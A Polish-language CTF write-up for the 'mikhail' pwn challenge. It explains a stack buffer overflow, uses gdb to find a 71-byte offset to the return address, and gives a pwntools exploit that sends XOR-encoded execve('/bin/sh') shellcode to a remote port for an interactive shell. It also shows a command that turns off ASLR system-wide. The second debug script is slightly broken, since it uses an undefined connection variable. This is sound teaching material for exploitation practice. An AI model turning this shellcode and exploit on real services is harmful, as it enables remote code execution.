 # mikhail write-up

## Wykorzystywane narzędzia

- pwntools
- gdb
- pwndbg

## Opis zadania

W tym zadaniu dostajemy binarkę która działa po stronie serwera i źródło w C++.  

programem checksec który instaluje się razem z `pwndbg` można sprawdzić z jakimi zabezpieczeniami program został skompilowany.

```
b@x:~/Desktop/mikhail > checksec story
[*] '/home/b/Desktop/mikhail/story'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
```

Dla nas istotne są rubryki:  

- `Stack` - mówi nam że na stosie nie ma kanarków
- `NX` - NX jest wyłączone, czyli program może wykonywać instrukcje leżące na stosie lub stercie.
- `PIE` - Za każdym włączeniem programu, plik binarny będzie ładowany pod losowym adresem. Między innymi sekcja kodu


## Szukanie podatności

W kodzie programu można zobaczyć 2 linijki:

```C 
    char password[64];
```
a później: 

```
    pass_len = read(0, password, 1000);
```

Co oznacza że program jest podatny na `buffer overflow` i możemy nadpisać adres powrotu na `A` powodując że program zacznie wykonywać instrukcje z pod adresu `A`. Niestety nic nam to nie daje bo przez `PIE` i `ASLR` nie wiemy gdzie wskoczyć.  

Analizując dalej widzimy taki kod:

```C
    char const *const msg = "Yay! We encrypted your story! It's secret now at ";
    for(i = 0; i < 49; ++i) {
        password[pass_len + i] = msg[i];
    }

    size_t *const ptr = reinterpret_cast<size_t *>(&password[pass_len + 49]);
    *ptr = reinterpret_cast<size_t>(story);
```

który dopisuje do bufora na stosie `password` wiadomość `Yay! We encrypted your story! It's secret now at ` a poźniej jeszcze jest dodawany wskaźnik na bufor `story`. Jest on zapisywany w postaci little-endian.

Oznacza to, że jeśli wybierzemy nasze hasło odpowiedniej długości to wskaźnik na bufor `story` zapisze się w miejscu adresu powrotu z funkcji. Wtedy po wyjściu z funkcji `foo` program zacznie wykonywać instrukcje które sami mu dostarczymy do bufora `story` .

Tylko jak obliczyć długość hasła?  

Po zdisasemblerowaniu binarki (ja użyłam do tego programu `IDA Pro`) można odnaleźć miejsce w którym właśnie jest zapisywny wskaźnik na story:

```
.text:0000000000000A6C                 mov     rax, cs:story
.text:0000000000000A73                 mov     rdx, rax
.text:0000000000000A76                 mov     rax, [rbp+var_30]
.text:0000000000000A7A                 mov     [rax], rdx
```
Za samo wrzucenie wskaźnika do `story` odpowiada instrukcja pod adresem `0000000000000A7A`.  

Spróbujmy podpiąć się debuggerem w to miejsce.

## Debugowanie

Dla ułatwienia debugowania wyłączamy chwilowo ASLR'a:

```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Włączmy binarke w gdb:


```
b@x:~/Desktop/mikhail > gdb ./story
```

Ustawiamy breakpoint na `0x555555554a7a`

```
b *0x555555554a7a
```

i na instrukcji `ret` w funkcji `foo`:

```
b *0x555555554aab
```

Możemy teraz urcuhomić program w gdb i podać puste hasło (1-Bajtowe haslo - sam znak nowej lini):
!(aaa)[imgs/gdb_beginning.png]

!(bbb)[imgs/rax.png]

Widzimy że przy wysłaniu pustego hasła program nadpisuje adres `0x7fffffffd632`.

!(ccc)[imgs/returning_from_foo.png]

Tutaj widać że adres powrotu znajduje się pod adresem: `0x7fffffffd678`

Obliczmy róźnicę pomiędzy tymi adresami:

```python
In [1]: 0x7fffffffd678-0x7fffffffd632
Out[1]: 70

```
Trzeba wysłać password dłuższe o 70 znaków czyli sumarycznie 71 znaków. 
Możemy sprawdzić w gdb czy obliczyliśmy wszystko poprawnie (wysyłamy 70 znaków `a` i znak nowej lini:

!(ddd)[imgs/p1.png]
Na powyższym obrazku widzimy że zapisuje adres na bufor `story` w miejsce które przechowuje adres powrotu.

!(eee)[imgs/p2.png]

Po kontynuowaniu wykonywania programu w gdb widzimy że program wywalił się na próbie wykonywania instrukcji ze sterty, co oznacza że próbował wykonać instukcje z bufora `story`

## Piszemy exploita

Możemy uruchomić binarkę u siebie tak aby nasłuchiwała na porcie 1337 i przekierowywała stdin i stdout na socket:

```b@x:~/Desktop/mikhail > socat TCP-LISTEN:1337,reuseaddr,fork EXEC:./story```

W ten sposób uruchamiane są zadania kategori CTF na serwerach które trzeba zpwownować

Pozostało nam jeszcze tylko wstawienie shellcodu do bufora story (musimy go jeszcze zxorować z buforem password, bo później w aplikacji jest xorowanie jeszcze raz). Poszukujemy shellcodu execve("/bin/sh",0,0) lub coś podobnego. Shellcody możemy znaleźć np. na [exploit-db.com](exploit-db.com), wygenerować metasploitem, lub uzyć [shellcraft z pwntools](http://docs.pwntools.com/en/stable/shellcraft.html)

exploit znajduje się poniżej:  

```python

from pwn import *

r = remote('localhost',1337)
def get_shellcode_execve():
    return "\x48\x31\xc0\x48\x83\xc0\x3b\x48\x31\xff\x57\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x8d\x3c\x24\x48\x31\xf6\x48\x31\xd2\x0f\x05"

shellcode =  get_shellcode_execve()
 

print r.recvuntil("story:")
r.send(xor(shellcode,'e'))
print r.recvuntil("password:")


payload = "e"*71
r.send(payload)
r.interactive()

```


Po zamienieniu `localhost` na adres serwera i zmienieniu portu, exploit również zadziała. Możemy teraz wpisać np. `ls`.  


A jeśli coś nam nie działa to możemy debugować exploita w taki sposób:

```python
from pwn import *


commands = [
  "bp 0x555555554aab",
  "c"
]

gdb.debug('story',gdbscript="\n".join(commands))

def get_shellcode_execve():
    return "\x48\x31\xc0\x48\x83\xc0\x3b\x48\x31\xff\x57\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x8d\x3c\x24\x48\x31\xf6\x48\x31\xd2\x0f\x05"

shellcode =  get_shellcode_execve()
 

print r.recvuntil("story:")
r.send(xor(shellcode,'e'))
print r.recvuntil("password:")


payload = "e"*71
r.send(payload)
r.interactive()
```

Powinno to nam dodatkowo uruchomić dodatkowe okno z gdb. Musimy mieć na uwadze to, że jeśli uruchamiamy proces w gdb to on automatycznie wyłącza ASLRa i PIE.


 
